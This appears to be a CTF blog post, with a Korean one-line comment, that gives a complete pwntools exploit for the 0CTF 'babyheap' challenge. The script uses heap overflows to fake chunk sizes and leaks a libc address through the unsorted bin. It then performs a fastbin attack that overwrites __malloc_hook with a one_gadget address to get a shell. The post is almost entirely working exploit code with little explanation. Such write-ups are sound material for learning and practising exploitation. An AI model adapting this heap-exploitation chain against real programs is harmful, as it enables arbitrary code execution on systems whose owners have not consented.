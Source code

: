 # 0ctf-babyheap

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div><div style="line-height:130%">66</div><div style="line-height:130%">67</div><div style="line-height:130%">68</div><div style="line-height:130%">69</div><div style="line-height:130%">70</div><div style="line-height:130%">71</div><div style="line-height:130%">72</div><div style="line-height:130%">73</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;allocate(size):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Command:'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;fill(idx,size,fill):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Command:'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Index:'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sa(<span style="color:#63a35c">'Content:'</span>,fill)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;free(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Command:'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Index:'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;dump(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Command:'</span>,<span style="color:#63a35c">'4'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'Index:'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./babyheap'</span>,env<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>{<span style="color:#63a35c">'LD_PRELOAD'</span>:<span style="color:#63a35c">'./libc.so.6'</span>})</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./babyheap'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendlineafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.recvuntil</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">4</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;allocate(<span style="color:#0099cc">0x10</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x80</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">free(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">free(<span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">3</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x21</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p8(<span style="color:#0099cc">0x80</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">fill(<span style="color:#0099cc">0</span>,<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">3</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x21</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fill(<span style="color:#0099cc">3</span>,<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x10</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x10</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">3</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x91</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fill(<span style="color:#0099cc">3</span>,<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x80</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">free(<span style="color:#0099cc">4</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">dump(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'Content:&nbsp;\n'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(r.recv(<span style="color:#0099cc">6</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x3c4b78</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x68</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">free(<span style="color:#0099cc">4</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">3</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x71</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'__malloc_hook'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">35</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fill(<span style="color:#0099cc">3</span>,<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x60</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">0x60</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'\x00'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">3</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span><span style="color:#a71d5d">+</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x4526a</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">fill(<span style="color:#0099cc">6</span>,<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">allocate(<span style="color:#0099cc">12</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



기본적인 fastbin attack이다...
